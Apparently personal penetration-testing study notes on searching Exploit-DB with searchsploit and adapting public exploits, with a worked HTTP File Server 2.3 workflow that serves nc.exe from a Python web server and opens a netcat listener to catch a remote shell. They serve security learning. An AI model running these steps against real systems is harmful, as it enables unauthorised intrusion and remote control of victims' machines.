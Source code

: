 
**Searching for exploits** 

After identifying a potential vulnerability with a target or service running on a target. 

##### Searching public available exploits 
- searching online is risky  (exploit code can be malicious)
- trustworthy databases: Exploit-db & Rapid7
- google search: `   [vulnerability] site:Rapid7.com`
- Github
- packet storm 



#####  Searching with SearchSploit
- Exploit-db comes pre-packed with kali 
- Exploit-db can be queried using SearchSploit 
  

#####  How to use searchsploit  
	- sudo apt-get update && sudo apt-get install exploit-db -y
	- ls -al /usr/share/exploitdb
	- ls -al /usr/share/exploitdb/exploits 

- exploit-db is updated daily  so you need to update using -u: `searchsploit -u `
- `searchsploit` 
- `searchsploit service` 
- `searchsploit service version`
- `searchsploit -m exploit_id-number`
- `searchsploit -m /path `
  copy an exploit in to your current working directory?
- `ls -al `--> `vim exploit_file`
- `searchsploit -c keyword`
- `searchsploit -t title_keyword`
- `searchsploit -e  "keywords/titel"`
- `searchsploit -e  "keywords/titel"`` | grep -e "match with"`
- `searchsploit remote Operating_system service ` 
  search for exploits that match parameter 
- `searchsploit remote windows buffer`
- `searchsploit remote linux service`
- `searchsploit remote wordpress | grep -e "webapps"`
- `remote windows smb -w 
  list online links to download and see exploit code
- `sudo cp /usr/share/exploitdb/exploits/windows/remote/42031.py .`  
  copy exploit manually 


----

### Fixing exploits 
Public exploit code sneeds to be adjusted to own requirements (port, ip etc)

- `nmap -sV ip` 
- `searchsploit HTTP File Server 2.3`
- `searchsploit -m exploit_id` 
  make copy of exploit
- `vim exploit_file`
  Analyze exploit on high level , and check if you need to modify the code (adding ip and port, nc executable)
	  - netcat executable: `cp /usr/share/windows-resources/binaries/nc.exe `
	    
3 windows: 
- (terminal 1) 	running exploit itself - launch exploit
	- ` file.py target_ _ip and service_port`
- (terminal 2) setup webserver to host netcat executable 
	- `python -m SimpleHTTPServer 80` 
- (terminal 3)   netcat listner will be running, obtain command shell session
	- `nc -nvlp 1234`


**Identifying and Preparing Exploits:**
1. Search for available exploits related to the target service (e.g., HTTP File Server 2.3):
	    - `searchsploit HTTP File Server 2.3`
1. If needed, display the details of a specific exploit and make a copy of it (replace `exploit_id` with the actual exploit ID):
	    - `searchsploit -m exploit_id`
2. Copy the netcat (nc.exe) executable to your working directory:
	    - `cp /usr/share/windows-resources/binaries/nc.exe .`
      
**Setting Up Exploit:** 
4. Open the exploit file using a text editor (e.g., Vim):
	- `vim exploit_file`
	 Analyze the exploit code at a high level and check if any modifications are required. This may involve adding the target IP address and service port, as well as specifying the path to the netcat executable if necessary.

**Setting Up Webserver:** 
6. In Terminal 2, set up a web server to host the netcat executable:
	- `python -m SimpleHTTPServer 80
	  `
**Listening for Incoming Connections:** 
7. In Terminal 3, start a netcat listener to capture the shell session:
	- `nc -nvlp 1234`
	This reordering ensures that the identification and preparation of exploits take place before the actual exploit execution, and the netcat setup is done before listening for incoming connections.
	
**Run Exploit**
In Terminal 1, run the exploit script with the target IP address and service port:
- `python exploit_file target_ip service_port`

### Cross-Compiling Exploits 

